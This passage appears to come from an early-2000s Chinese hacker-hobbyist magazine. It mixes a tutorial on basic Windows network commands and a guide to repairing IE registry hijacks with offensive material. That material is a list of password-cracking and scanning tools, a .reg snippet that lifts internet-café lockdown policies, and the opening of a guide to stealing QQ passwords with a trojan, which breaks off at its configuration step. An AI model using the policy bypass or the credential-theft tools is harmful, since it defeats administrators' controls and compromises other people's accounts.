- **WORD97/2000/XP 密码查看器：** 偷窥 WORD 文件密码的工具。

#### 远程主机工具

- **IIS Cracker：** 采用完全图形化用户界面来操作 IIS 服务器，即使你对 Unicode 和 DOS 命令一窍不通，也能迅速成为 IIS 杀手！
- **WIN2000 终端服务客户端：** 简体中文完整安装版。
- **storm：** 风暴扫描器，用来对主机（跑 Win 系统的）作信息采集，功能极强。

#### 辅助工具

- **时空大虾：** 是一款解除软件时间限制的软件，其操作简单方便，既具有自动跟踪功能，又可手工干预。对利用系统时间并能从本软件启动的有时间限制软件有奇效！

#### 其他工具集合

- 黑客教程
- 《Crack 教学》
- 《黑客技术大全》

## 拼跪 ping 吧

## —— ping 和它的兄弟们

◎文/port

Ping 其实是一个实用的小命令。当你访问一个站点时，你可能需要很长时间，这也许是网络故障，此时我们可以利用 Ping 程序来测试。Ping 会向 Web 网址的主服务器发送一个 32 字节的消息。然后，它将服务器的响应时间记录下来。如果从发出信息到服务器响应的时间超过 400 毫秒，就可以认为 Web 网址运行缓慢。当然，你离 Internet 中心集线器越远，服务器的响应时间就越长。

> 我们在 Windows 9X 下可以按如下步骤来使用 Ping。

1. 单击“开始”→选择“运行”。
2. 键入 Ping 和你要测试的网址，比如：“ping www.yahoo.com”。

Ping 将会向你显示此次测试的结果。响应时间低于 300 毫秒都可以认为是正常的，时间超过 400 毫秒则较慢。出现“请求超时（Request timed out）”信息意味着网站没有在 1 秒内响应，这表明服务器没有对 Ping 做出响应的配置或者网址反应极慢。如果你看到 4 个“请求超时”信息，说明网址拒绝 Ping 请求。因为过多的 Ping 测试本身会产生瓶颈，因此，许多 Web 管理员不让服务器接受此测试。

如果网址很忙（或者出于其他原因运行速度很慢，如硬件动力不足、数据管道不够用），稍候可以再试一次以确定网址是不是真的有问题。如果多次测试都存在问题，则可以认为是你的 PC 与该网址站点没有链接上，可能是对方服务器故障，也可能是由于网络不通畅造成的，还有可能是本地机设置有问题。

许多扫描工具会内嵌 Ping 命令来执行扫描工作，下面我们再列举 Ping 的其他几种用法，以及其他几个最基本的实用命令，在通常状况下，这些命令只是一个普通的网络命令，但是亦可被有经验的黑客用来进行扫描、追踪、甚至侵入对方主机等，所以我们应该掌握它们，而且它们都是 Win 9X 自带的。

### Ping

功能 1：验证与远程计算机的连接。该命令只有在安装了 TCP/IP 协议后才可以使用。

用法：Ping `<IP地址>`

举例：Ping 192.168.0.90，如图 1 所示。

说明：如图所示的“Reply from 192.168.0.90……”就表示已经链接，如果提示的是“Request timed out”，则表示指定的 IP 没有链接上。

```text
C:\WINDOWS>ping 192.168.0.90

Pinging 192.168.0.90 with 32 bytes of data:

Reply from 192.168.0.90: bytes=32 time<1ms TTL=128
Reply from 192.168.0.90: bytes=32 time<10ms TTL=128
Reply from 192.168.0.90: bytes=32 time<10ms TTL=128
Reply from 192.168.0.90: bytes=32 time<10ms TTL=128

Ping statistics for 192.168.0.90:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 1ms, Maximum = 14ms, Average = 3ms
```

图 1 Ping 一个局域网内的 IP 地址

功能 2：根据域名获得 IP 地址

用法：Ping `<域名>`

举例：Ping www.Google.com，如图 2 所示。

说明：“Reply from……”后面的 IP 地址就是 www.Google.com 对应的 IP 地址。

黑客是傻瓜吗？
哦，肯定不呀。
那是什么？
黑客这个 Cool 的代号是属于那些驰骋城网的风云人物。而《侵瓜黑客》这个栏目呢，旨在为菜鸟提供一个基础的学习环境。这里有很基础的网络知识，有许多小的技巧，菜鸟读后也能轻易上手。

```text
C:\WINDOWS>ping www.google.com

Pinging www.google.com [216.239.33.100] with 32 bytes of data:

Reply from 216.239.33.100: bytes=32 time=220ms TTL=48
Reply from 216.239.33.100: bytes=32 time=220ms TTL=48
Reply from 216.239.33.100: bytes=32 time=220ms TTL=48
Reply from 216.239.33.100: bytes=32 time=220ms TTL=48

Ping statistics for 216.239.33.100:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 220ms, Maximum = 220ms, Average = 220ms
```

图 2 Ping 域名后显示的 IP 地址

功能 3：根据 IP 地址获取域名，加一个参数 -a

用法：Ping -a `<IP地址>`，如图 3 所示。

说明：Pinging 后面的“www.google.com”就是 IP 对应的域名。

```text
C:\WINDOWS>ping -a 216.239.33.100

Pinging www.google.com [216.239.33.100] with 32 bytes of data:

Reply from 216.239.33.100: bytes=32 time=220ms TTL=48
Reply from 216.239.33.100: bytes=32 time=243ms TTL=48
Reply from 216.239.33.100: bytes=32 time=219ms TTL=48
Reply from 216.239.33.100: bytes=32 time=261ms TTL=48

Ping statistics for 216.239.33.100:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 219ms, Maximum = 261ms, Average = 233ms
```

图 3 Ping IP 地址得到域名

| 参数 | 说明 |
|---|---|
| `-t` | Ping 指定的计算机直到中断。 |
| `-a` | 将地址解析为计算机名。 |
| `-n count` | 发送 count 指定的 ECHO 数据包数。默认值为 4。 |
| `-l length` | 发送包含 length 指定的数据量的 ECHO 数据包。默认为 32 字节；最大值是 65,527。 |
| `-f` | 在数据包中发送“不要分段”标志。数据包就不会被路由上的网关分段。 |
| `-i ttl` | 将“生存时间”字段设置为 ttl 指定的值。 |
| `-v tos` | 将“服务类型”字段设置为 tos 指定的值。 |
| `-r count` | 在“记录路由”字段中记录传出和返回数据包的路由。count 可以指定最少 1 台，最多 9 台计算机。 |
| `-s count` | 指定 count 指定的跃点数的时间戳。 |
| `-j computer-list` | 利用 computer-list 指定的计算机列表路由数据包。连续计算机可以被中间网关分隔（路由稀疏源），IP 允许的最大数目为 9。 |
| `-k computer-list` | 利用 computer-list 指定的计算机列表路由数据包。连续计算机不能被中间网关分隔（路由严格源），IP 允许的最大数目为 9。 |
| `-w timeout` | 指定超时间隔，单位为毫秒。 |

### Winipcfg.exe

该命令显示了本机的 IP 配置信息，它包含了以太网卡信息和拨号主机信息。该命令和 DOS 状态下的 Ipconfig 命令是相同的。在开始菜单下的“运行”对话框中输入 Winipcfg 后，弹出的窗口中将显示本机的网卡信息，点击右下角的“详细信息”将同时显示出主机的配置信息，如图 4 所示。



### Netstat.exe

该命令显示了计算机上的 TCP 连接表、UDP 监听者表以及 IP 协议统计。

通常你可以通过这些信息发现你机器上正在打开的端口和服务，你甚至可以检查机器上是否有木马进程。同时你还可以看见你的机器正在和哪些 IP 地址、TCP、UDP 或其他协议进行相连。图 5 是在命令后加了可显示全部信息的参数 -a 的显示结果。

```text
C:\WINDOWS>netstat -a

Active Connections

  Proto  Local Address        Foreign Address      State
  TCP    lihai:ldaps          0:0                  LISTENING
  TCP    lihai:1025           0:0                  LISTENING
  TCP    lihai:microsoft-ds   0:0                  LISTENING
  UDP    lihai:4000           *:*
  UDP    lihai:nbname         *:*
  UDP    lihai:nbdatagram     *:*
```

图 5 在 DOS 状态下执行“netstat -a”后的结果

- **-a：** 显示所有连接和侦听端口。服务器连接通常不显示。
- **-e：** 显示以太网统计。该参数可以与 -s 选项结合使用。
- **-n：** 以数字格式显示地址和端口号（而不是尝试查找名称）。
- **-s：** 显示每个协议的统计。默认情况下，显示 TCP、UDP、ICMP 和 IP 的统计。-p 选项可以用来指定默认的子集。
- **-p protocol：** 显示由 protocol 指定的协议的连接；protocol 可以是 tcp 或 udp。如果与 -s 选项一同使用，显示每个协议的统计，protocol 可以是 tcp、udp、icmp 或 ip。
- **-r：** 显示路由表的内容。
- **interval：** 重新显示所选的统计；在每次显示之间暂停 interval 秒。按 CTRL+C 停止重新显示统计。如果省略该参数，netstat 将打印一次当前的配置信息。

### Route.exe

该命令显示了本机的 IP 路由表，主要显示目标地址、网络掩码、网关、本地 IP 地址和公制信息。如果要显示全部的路由信息，则加一参数“print”，如图 6 所示。

```text
C:\WINDOWS>route print
===========================================================================
Interface List
0x1 ........................ MS TCP Loopback interface
0x2 ...00 50 ba 44 8e af ... Realtek RTL8029(AS) Ethernet Adapter
===========================================================================
Active Routes:
Network Destination   Netmask         Gateway       Interface    Metric
        0.0.0.0       0.0.0.0      192.168.0.90    192.168.0.22      1
      127.0.0.0     255.0.0.0      127.0.0.1       127.0.0.1         1
    192.168.0.0   255.255.255.0    192.168.0.22    192.168.0.22      1
    192.168.0.22  255.255.255.255  127.0.0.1       127.0.0.1         1
   192.168.0.255  255.255.255.255  192.168.0.22    192.168.0.22      1
===========================================================================
Persistent Routes:
  None
```

图 6 显示全部路由信息

- **-f：** 清除所有网关入口的路由表。如果该参数与某个命令组合使用，路由表将在运行命令前清除。
- **-p：** 该参数与 add 命令一起使用时，将使路由在系统引导程序之间持久存在。默认情况下，系统重新启动时不保留路由。与 print 命令一起使用时，显示已注册的持久路由列表。忽略其他所有总是影响相应持久路由的命令。
- **Command：** 指定下列的一个命令。
- **Print：** 打印路由。
- **Add：** 添加路由。
- **Delete：** 删除路由。
- **Change：** 更改现有路由。
- **Destination：** 指定发送 command 的计算机。
- **mask subnetmask：** 指定与该路由条目关联的子网掩码。如果没有指定，将使用 255.255.255.0。
- **gateway：** 指定网关。

### ARP.EXE

该命令用于查看和处理 ARP 缓存，ARP 是地址解析协议的意思，负责把一个 IP 地址解析成一个物理性的 MAC 地址。显示全部信息的用法为：arp -a，如图 7 所示。

```text
C:\WINDOWS>arp -a

Interface: 192.168.0.22 on Interface 0x2
  Internet Address      Physical Address      Type
  192.168.0.4           00-00-00-00-00-00     invalid
  192.168.0.90          00-0d-ba-41-0a-01     dynamic
```

图 7 arp -a 命令结果

- **-a：** 通过询问 TCP/IP，显示当前 ARP 项，如果指定

## 兔子拯救 IE

◎文／蔡兔子

“小菜于网上正百无聊赖时，忽一 MM 呼之，精神一振。打开 MM 传来一 Flash 网址，进去看到是‘无印良品’的《想见你》，瞌睡完全醒了。寂寞而多情的小菜随着歌声开始感觉越来越温暖，MM 在暗示我什么……忽发无数信息对 MM 问寒问暖，口水飞溅，妙语连珠。好一阵光景 MM 才发来第二条信息。打开又是一网址，想都不想，进去……弹出一窗口，上书‘嘿嘿，C: 盘开始格式化，菜头。’慌乱中点击确定，又弹出一窗口‘乱点什么确定，冤大头’……关不掉 IE，不断点确定，无限多，按 Ctrl+Alt+Del 才杀死这进程，惊魂不定，重启。”

一些个人网页为了达到宣传或整人的目的，利用 IE 的漏洞修改浏览者的注册表，肆意修改 IE 的首页、标题栏等内容，特别让人讨厌。当你想要修改回来时，却发现 IE 里面的 Internet 选项已经被锁上了，改都无从下手，可恶。

想要改吗，小菜来教你。小菜给大家介绍两种修改方法，一种是利用超级兔子魔法设置（该软件从《超级兔子魔法设置》光盘中找到，该光盘还带有其他许多实用的系统工具）来修改，另一种就是直接修改注册表。如果对注册表不熟的建议使用超级兔子魔法设置软件修改，安全且方便。

### 一、修改 IE 的标题栏

即在 IE 浏览器最上方的蓝色横条里做广告，而不是显示默认的“Microsoft Internet Explorer”。这种修改非常常见，有人也将意针对它编制了反修改的程序。

- **1. 注册表法**
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main`
- `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`
- 在注册表中找到以上两处主键，将其下的“Window Title”主键删除，并关闭所有打开的 IE 浏览器窗口再重新打开就能看到效果。

- **2. 超级兔子法**
- 点击“IE 浏览器”，点击与“IE 标题”字体平行的“复原”按钮即可。

```text
C:\WINDOWS>nbtstat -a 192.168.0.90

Lana # 0:
Node IpAddress: [192.168.0.221] Scope Id: []

    NetBIOS Remote Machine Name Table

Name           Type      Status
-------------------------------------
LIHAI       <00> UNIQUE    Registered
WORK        <00> GROUP     Registered
LIHAI       <03> UNIQUE    Registered
LIHAI       <20> UNIQUE    Registered
WORK        <1E> GROUP     Registered

MAC Address = 00-00-BA-41-0A-01
```

图 8 Nbtstat 命令

### 二、修改 IE 的首页

这个改正过来很方便，在 IE 的设置里就有。比较麻烦的是某些网页在浏览者的硬盘里写入程序，使重启计算机后首页设置又被改了回去，这时可使用“系统配置实用程序”来解决。在任务栏里点击“开始”、“运行”，键入 msconfig，点击“确定”，在弹出的窗口中切换到“启动”选项卡，禁用可疑程序启动项。

### 三、让 Windows 启动时显示一个窗口，点确定才能进去

这个设置其实与 IE 无关，而是 Windows 的登录提示窗口，不过最近有些网页对它动上了脑筋，在这个窗口里做广告。

- **1. 注册表法**
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`
- 在注册表中找到此主键，将其下的“LegalNoticeCaption”和“LegalNoticeText”主键删除即可。

- **2. 超级兔子法**
- 点击“安全与多用户”，再点击左上角的“+”切换窗口后，清除“启动时要显示的标题”和“启动时要显示的信息”两项内容即可。

### 四、让 IE 里点击鼠标右键，弹出的菜单里显示网页广告

这种情况很少有，但也会有少许网站做这种手脚。

- **1. 注册表法**
- `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`
- 在 IE 中显示的附加右键菜单都在这里设置，常见的网络蚂蚁和网际快车点击右键下载的信息也存放在这里，只需找到显示广告的主键条目删除即可。

- **2. 超级兔子法**
- 点击“IE 浏览器”，再点击左上角的“+”切换窗口后，在上方的列表窗口中即可修改、删除 IE 的附加右键菜单项。

在本刊光盘系统检测的按钮下提供有超级魔法兔子的光盘试用版。

# 网吧冲浪之硬盘解锁

裴元凌

现在的网吧到处都是，在网吧上网的人更是数不胜数。可是在网吧上网有很多不便，其中表现最明显的就是在网管软件的管制之下是无法访问硬盘的。这就给文件下载带来了很大的障碍，试想一下，如果你下载了一个文件，下次想使用的时候怎么办？所以要想想办法了。下面就是一些常用硬盘解锁的方法。

- **1. 查看“文件夹”**：运行 IE，拉出“查看”的下拉菜单，依次选择“浏览器栏”→“文件夹”。然后就会弹出一个资源管理器的界面，如图 1。接下来的操作就和资源管理器一样了，去寻找你要的东东，很简单吧。
- **2. Internet 属性**：这是一个老办法了。运行 IE，拉出“工具”的下拉菜单，选择“Internet 选项”，如图 2。然后在弹出的 Internet 属性对话框中依次点击“设置”→“查看文件”或“查看对象”，就会出现 Downloaded Program Files 文件夹，如图 3，一直“向上”即可。
- **3. 链接**：运行 IE，拉出“收藏”的下拉菜单，在“链接”上按住鼠标左键，将其拖到网页一个空白的地方松开，会出现“收藏”的位置，如图 4，一直“向上”即可。
- **4. WinZip**：应用压缩软件 WinZip，下载一个 *.zip 文件（越小越好），下载完毕后，用 WinZip 打开，解压后就会弹出默认 C:\unzipped 文件夹，如图 5，一直“向上”即可。
- **5. 计划任务**：看一看右下角的任务栏里是否有计划任务的小图标，如果有，点击它。看见了什么？如图 6，一直向上即可。
- **6. 看图软件**：说实话下载看图软件有一点太大材小用，也有点繁琐，不过很有效，建议用 ACDSee 或豪杰大眼睛。这方面没有什么可说的。

有的朋友可能会问，如果驱动器被隐藏怎么办？隐藏驱动器是通过修改注册表来实现的，那我们就把它给改回来。废话少说，动手了：

```text
“解除”禁止注册表编辑：

REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]

"DisableRegistryTools"=dword:00000000

解除其它限制（以下的各项主键位置都相同）

REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]

"NoDrives"=dword:00000000       （解除“隐藏驱动器”）
"NoFavoritesMenu"=dword:00000000（解除“隐藏收藏夹”）
"NoSetTaskbar"=dword:00000000   （解除“禁止改变任务栏属性”）
"NoSetFolder"=dword:00000000    （解除“隐藏控制面板”）
"NoDesktop"=dword:00000000      （解除“隐藏桌面”）
"NoRun"=dword:00000000          （解除“隐藏运行”）
```

对于网吧的注册表，没有特殊的需要，更改这些就足够了，希望能给大家带来方便。













# 侵入黑客

## QQ 是谁偷走的？

银蜥蜴

黑 QQ？说起来是挺简单的，但对菜鸟来说，操作起来还得费一点功夫！这里我给大家介绍两个工具，一个 ShareQQ，它利用木马的特点来获取密码；另一个是 QQExplorer，它是一个远程破解 QQ 密码工具。下面让我们跟着图示，来轻松掌握它们的用法。

首先，让我们来看看怎样偷 QQ 密码。

偷 QQ 密码的工具很多，但最好用的就是上面提到的 ShareQQ 了。第一步，你得下载一个 ShareQQ，现在最新版本应该是 4.5 版，如需新版本，可以在配套光盘《杂志相关》栏目中找到。这里给大家讲解的是 4.1 版本，因为它和 4.5 版比起来几乎没有什么差别。

ShareQQ 分为两个文件，一个是程序（ShareQQ4.1.exe），一个是配置文件（ConfigShareQQ.exe），我们得先将 ShareQQ 进行配置。首先，运行 ConfigShareQQ.exe，就会看到如图一所示的窗口：

